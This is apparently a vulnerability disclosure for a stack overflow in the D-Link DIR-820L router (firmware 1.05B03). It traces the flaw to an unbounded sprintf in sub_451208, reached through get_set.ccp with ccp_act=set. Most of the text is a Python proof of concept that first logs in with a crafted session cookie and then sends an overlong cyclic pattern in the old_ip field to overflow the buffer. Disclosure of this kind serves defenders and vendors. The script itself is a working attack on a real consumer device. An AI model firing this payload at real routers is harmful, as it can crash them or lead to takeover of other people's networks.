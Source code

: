 # Vulnerability introduction

A stack overflow vulnerability exists in the sub_451208 function of D-Link DIR-820L 1.05B03.

# Vulnerability analysis

In its callback_ccp_get_set() function, pcVar10 is the ccp_act value passed in

![image](https://github.com/user-attachments/assets/996934d1-fb36-45cb-96de-8fc38da2a6b1)


When ccp_act = set is set, sub_451208 is called

![image](https://github.com/user-attachments/assets/faeca5c1-36be-4c72-914a-b3fe0e144a92)

Within the sub_451208 function, by obtaining a series of parameter values, sprintf will be used to assign values ​​without setting the buffer length, causing overflow.

![image](https://github.com/user-attachments/assets/29bbbab4-4e61-433e-af02-dfb02e632b86)

![image](https://github.com/user-attachments/assets/27903ba6-8d71-45c6-a680-eef36e794a2f)


# POC
![image](https://github.com/user-attachments/assets/4e092493-bc47-447d-808c-dc3c66fed4a7)

![image](https://github.com/user-attachments/assets/2fb5c8fc-1365-45e6-93d9-ba402b71f503)



```python
import requests

login_url = 'http://192.168.0.1/login.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '122',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.0.1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://192.168.0.1/',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'html_response_page': 'login.asp',
    'login_name': '',
    'login_pass': '',
    'username': 'QWRtaW4A',
    'password': '',
    'graph_id': '',
    'alert_id': '',
    'log_pass': '',
    'graph_code': ''
}
response = requests.post(login_url, headers=headers, data=data)
print(response.text)


url = 'http://192.168.0.1/get_set.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '1064',
    'Accept': 'application/xml, text/xml, */*; q=0.01',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.0.1',
    'Referer': 'http://192.168.0.1/lan.asp',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'ccp_act': 'set',
    'old_ip': 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac',
    'old_mask': '255.255.255.0',
    'new_ip': '192.168.0.1',
    'new_mask': '255.255.255.0',
    'nextPage': 'lan.asp',
}
response = requests.post(url, headers=headers, data=data)
print(response.text)
```
